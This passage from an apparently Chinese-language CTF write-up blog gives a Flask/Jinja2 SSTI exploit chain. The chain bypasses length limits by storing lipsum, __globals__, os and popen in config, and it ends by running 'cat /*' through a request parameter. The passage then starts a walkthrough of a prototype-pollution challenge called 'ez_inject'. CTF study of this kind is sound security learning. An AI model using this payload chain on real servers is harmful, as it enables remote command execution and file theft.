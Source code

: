 参考文章：[Python Flask SSTI 之 长度限制绕过](https://blog.csdn.net/weixin_43995419/article/details/126811287)

exp 

::: v-pre
```python
{{config.update(l=lipsum)}}
{{config.update(g=request.args.a)}}&a=__globals__
{{config.update(f=config.l)}}
{{config.update(f=f|attr(config.g))}}
{{config.update(f=config.l[config.g])}}
{{config.update(o=config.f.os)}}
{{config.update(p=config.o.popen)}}
{{config.p(request.args.c).read()}}&c=cat /*
```
:::


## ez_inject 【复现】

**bao**师傅出的题目，又学到新姿势了。[出题人讲解](https://baozongwi.xyz/2024/11/13/DSBCTF2024/)

现在来仔细复现一下，一个学习原型链污染的好机会，被知识**了两天。看到师傅思路，太赞了。

注册一个账号，看看各个路由下的内容

![1](/medias/show-DSB/1.png)
